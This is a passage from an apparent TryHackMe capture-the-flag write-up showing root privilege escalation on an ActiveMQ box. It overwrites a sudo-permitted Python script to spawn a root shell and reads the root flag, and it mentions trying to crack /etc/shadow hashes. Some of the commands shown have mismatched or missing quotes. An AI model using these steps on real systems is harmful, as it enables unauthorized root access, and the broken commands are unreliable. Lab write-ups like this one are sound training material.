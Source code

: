 We attempt to use python to spawn a root shell.

##### Python Command:
>os.system('/bin/sh')

```
sudo python -c 'import os; os.system('/bin/sh')'
sudo python -c 'import os; os.system('/bin/sh')'

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

	#1) Respect the privacy of others.
	#2) Think before you type.
	#3) With great power comes great responsibility.

[sudo] password for activemq:
```

Sadly, this did not work, as we still need activemq’s password. I tried cracking the hash from ```/etc/shadow```, but I didn’t find anything. However, hope is not lost. ```sudo -l``` told us that we can also run the ```subscribe.py``` file with sudo, so we can edit this to read the root flag for us (presumably located in ```/root/root.txt```).

We edit ```subscribe.py``` with an ```echo``` command.
The following python code is injected:

```
Import os
os.system(/bin/bash)
```

##### Command:
>echo 'import os; os.system(""/bin/bash")' > subscribe.py

This code works, and we get a root shell, and the root flag!

```
echo "import os; os.system('/bin/bash')" > subscribe.py
echo "import os; os.system('/bin/bash')" > subscribe.py
                                          	sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
whoami
whoami
root
cat /root/root.txt
cat /root/root.txt
THM{br34k_br0k3_br0k3r}
```

### Tools Used

* Nmap
* Custom Python script
* Metasploit
* Custom exploit script
* Netcat
